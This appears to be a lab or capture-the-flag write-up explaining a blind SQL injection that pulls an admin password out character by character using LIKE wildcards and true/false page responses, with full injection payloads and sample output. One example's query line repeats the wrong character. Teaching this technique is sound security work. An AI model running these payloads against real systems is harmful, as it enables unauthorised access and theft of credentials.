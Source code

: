 The key thing to note here is that the page gives us different results when we have a TRUE query vs when we have a FALSE query. A TRUE query has the text 'Your answer to the security question' in the page, whereas a FALSE query just has 'User does not exist'. This is an important thing to note, and this is exactly what a blind SQL injection utilizes to get information from the database.

In this case, we want the password. We are already given the query, so what we can do is get the password out one character at a time. SQL has what we call 'wildcards', of which there are two main ones that we can utilize. The wildcard '%' means any number of ascii characters, while the wildcard '_' means just one of any ascii character. For example, take the following query that returns TRUE.
```
username: admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '%') --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '%') --.'

Your answer to the security question is not correct. We have sent admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '%') --. an email to notify this incident.
```

We make our query's right hand side a SELECT statement that returns one column from the users table where the password is LIKE '%'. the '%' means 'any number of characters', therefore the SELECT statement does return 1, and our query can then be compacted down to `admin' AND 1=1 --.`, which returns TRUE. This works because the password is a bunch of characters (as passwords usually are).

What we can also do with a wildcard like '%' is test for strings like 'a%', 'b%', 'c%', and etc, to find out what character the password begins with. An example is shown below.
```
username: admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'a%') --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'a%') --.'

User does not exist.

username: admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'b%') --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=(SELECT 1 FROM users WHERE password LIKE 'a%') --.'

User does not exist.

......
......

username: admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '7%') --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '7%') --.'

Your answer to the security question is not correct. We have sent admin' AND 1=(SELECT 1 FROM users WHERE password LIKE '7%') --. an email to notify this incident.
```

Once we've tried all characters through a-z, then A-Z, then 0-9, we notice that '7%' returns a TRUE query. This tells us that the password starts with the character '7', and then ends with any number of characters due to the wildcard '%'. The next time we do the query then, we can start again with '7a%', '7b%', etc, to find the second character. Rinse and repeat, and we will end up getting the entire password.
